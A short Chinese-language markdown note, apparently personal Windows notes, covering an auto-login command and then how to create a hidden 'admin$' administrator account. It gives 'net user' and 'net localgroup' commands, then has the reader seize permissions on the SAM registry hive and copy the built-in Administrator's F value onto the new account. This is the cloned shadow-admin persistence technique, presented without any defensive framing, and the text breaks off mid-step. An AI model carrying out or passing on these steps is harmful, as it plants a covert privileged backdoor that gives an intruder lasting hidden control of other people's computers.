 # Windows

### 自动登录设置

```angular2html
control userpasswords2

```

### Windows注册表添加账户

> 使用命令 `net user admin$ admin /add`添加账户
>
> 使用命令 `net localgroup administrators admin$ /add`添加进管理员组
>
> 使用命令 `regedit`打开注册表，跳转到 `HKEY_LOACL_MACHINE\SAM\SAM` 发现没有展开项，需要修改权限为 `当前用户-完全控制`
> 
>然后将继续展开 `Domains\Account\Users` 找到添加的账户导出注册表，找到对应制的F替换成Administrator账户的F值，导出
>